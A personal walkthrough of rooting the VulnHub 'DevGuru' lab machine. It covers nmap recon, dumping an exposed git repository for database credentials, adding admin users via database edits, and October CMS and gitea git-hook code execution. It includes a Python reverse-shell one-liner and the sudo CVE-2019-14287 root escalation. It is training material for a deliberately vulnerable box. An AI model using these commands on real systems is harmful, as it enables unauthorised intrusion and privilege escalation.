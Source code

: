 # VulnHub-DevGuru

## Netdiscover

Run `netdiscover -i wlan0` or `eth0`

<img src="https://imgur.com/U8GskLr.png"/> 

Alternatively this box gives us the ip address we need to scan for nmap , however it's not common that vulhub boxes have a banner to give local ip address when they bootup.

<img src="https://imgur.com/ruFBezk.png"/>

## NMAP

Now that we have the IP address of our target let's run nmap scan on it

```
Nmap scan report for 192.168.1.138
Host is up (0.00014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:46:e8:2b:01:ff:57:58:7a:5f:25:a4:d6:f2:89:8e (RSA)
|   256 08:79:93:9c:e3:b4:a4:be:80:ad:61:9d:d3:88:d2:84 (ECDSA)
|_  256 9c:f9:88:d4:33:77:06:4e:d9:7c:39:17:3e:07:9c:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: DevGuru
| http-git: 
|   192.168.1.138:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: first commit 
|     Remotes:
|       http://devguru.local:8585/frank/devguru-website.git
|_    Project type: PHP application (guessed from .gitignore)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corp - DevGuru
MAC Address: 08:00:27:C2:2E:66 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.61 seconds
```

So from the nmap scan we have 2 ports http and ssh but we see something intersting which `.git/` also we see a domain name `devguru.local`. Add the domain to `/etc/hosts`

<img src="https://imgur.com/4cGfA58.png"/>

<img src="https://imgur.com/Rt5p5UR.png"/>

On going to `register` tab we won't be able to register any user also we haven't found any creds.

<img src="https://imgur.com/oHgxDf5.png"/>

On port 80 we can also see a home page with clicking on the tabs pretty much doesn't do anything

<img src="https://imgur.com/UdhpGQU.png"/>
So I tried ruuning gobuster and found something interesting

<img src="https://imgur.com/AxkMwmb.png"/>

<img src="https://imgur.com/XMYfJ1y.png"/>

But it's the same thing we need credentials.

I did try to find some exploits for `gitea` and `october` but end up failing so the next thing we can do is try to dump the git repository that we saw from the nmap scan.To dump the git repository what you need is called GitTools , really an awesome tool

`https://github.com/internetwache/GitTools`

<img src="https://imgur.com/Jf8YhjE.png"/>

This script is going to download whatever it can from the repository.

<img src="https://imgur.com/X24yjss.png"/>

When it finishes it will look something like this

<img src="https://imgur.com/myHKpaI.png"/>

<img src="https://imgur.com/XNe3OSF.png"/>

Going through `objects` folder you'll find bunch of directories and you won't understand how would you read it so another script of extracting useful files from `.git` is called `Extractor` which comes with `GitTools`

<img src="https://imgur.com/nn9KMFV.png"/>

As you can see it will extract all the files we'll need so you definitely want to have it in your arsenal when it comes to dealing with `.git` on the webserver

<img src="https://imgur.com/79tIOWm.png"/>

<img src="https://imgur.com/rkuLmuZ.png"/>

Now two files that you want to look at ,first `adminer.php` which is database management tool means there's a databse which is connected to web application also in `config` folder you'll find `database.php` in which you can get credentials for logging into the database 

<img src="https://imgur.com/RpcLZ62.png"/>

<img src="https://imgur.com/FBGzWYp.png"/>

<img src="https://imgur.com/E2fuSWE.png"/>

Now we are logged in and we can pretty much do everything with the database so let's try creating a new user in the database or we can just clone the `frank` user but here we have to specify the password in that hash which is `bcrypt` seeing identifying it as it is starting from `$2$` 

Goto `cyberchef` or any other website from which you can generate a text to bcrypt hash and add it in the password field

<img src="https://imgur.com/xEAStaA.png"/> 

<img src="https://imgur.com/nJG03cp.png"/>

<img src="https://imgur.com/fuF2FRk.png"/>

Now we have added a new user and we should be able to login to the page we found through `gobuster`

<img src="https://imgur.com/FC2sUxX.png"/>

In order to get a shell from the october cms there something we can do is run php code inside html page but it's a little different.

Through goolging around a little I was able to find a forum where people asked about this thing and got several answers but the code that worked for me was

<img src="https://imgur.com/xlofAzs.png"/>

So let's try testing if this actually works

<img src="https://imgur.com/weWym8c.png"/>

<img src="https://imgur.com/qaJC62U.png"/>

This works so now we just have to setup a GET parameter in the code and run system commands

<img src="https://imgur.com/wbN92tc.png"/>

<img src="https://imgur.com/mTTcV5c.png"/>

We are almost just there (not really it is a real pain), just need a reverse shell.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
This one worked for me

<img src="https://imgur.com/ZKCX50B.png"/>

Once we got in the things we could is to just look for any cronjob ruuning or to see if we can run anything as sudo

<img src="https://imgur.com/uVz8EHt.png"/>

But got no luck, now only options is to run `linpeas` and hope it finds something

<img src="https://imgur.com/e2HBws6.png"/>

<img src="https://imgur.com/F27JlAq.png"/>

Now it found something interesting which is a backup configuration file of that `gitea`. From that file we find creds for `gitea`'s database

<img src="https://imgur.com/E1Ix2Lu.png"/>


<img src="https://imgur.com/SKKhMFA.png"/>

We now have access to gitea database but here we have to add a new user in order to login to `gitea`

<img src="https://imgur.com/Fevo7ER.png"/>

<img src="https://imgur.com/lggp0ti.png"/>

It may look that it's only allowing pbkdf2 hashes but bcrypt also works

<img src="https://imgur.com/CuL90QX.png"/>

Now to get a reverse shell there is actullay an exploit for it 

`https://security.szurek.pl/en/gitea-1-4-0-unauthenticated-rce/`

By going through it explained we can get `remote code execution` if we have an administrator account on `gitea` because we need to have `githooks` to be enabled which is just a script that runs automatically whenever an event occurs on github repository. So what we are going to do is 

1. Create a repository (doesn't matter if it's empty)

2. Go to settings of the repository , githooks , click on update then add a reverse shell

3. Clone the repository

4. Add a file to the repository

5. Commit

6. Push

<img src="https://imgur.com/q8vnYmY.png"/>

<img src="https://imgur.com/QWfOLok.png"/>

<img src="https://imgur.com/SAlRS1q.png"/>

<img src="https://imgur.com/vlcqvrH.png"/>

<img src="https://imgur.com/saEKeue.png"/>

<img src="https://imgur.com/CFuHZLz.png"/>

And now if we go to our netcat listener , we will have a shell as `frank`

<img src="https://imgur.com/yNiz4YN.png"/>

<img src="https://imgur.com/gfTmCks.png"/>

<img src="https://imgur.com/4MBiuur.png"/>

Going throguh man pages of `sudoers` it says that we can run this can be ran as any user but not as `root`.

<img src="https://imgur.com/kbZNTkr.png"/>

Now a vulnerability exists in this scenario when a user is allowed to execute command as other users but not as root so when specifiy a user with `-u` and user id with `-1` it's going to consider is a `root` with id `0`

`https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability`

<img src="https://imgur.com/9ihFY4q.png"/>

So this was a really an intersting box that first we have to dump the git repository then look for important files after that get our intial foothold as `www-data` through that look for some configuration files ,edit database ,add repository then push our changes into it did learned a lot from this it was my first vulnhub machine that I rooted !!!

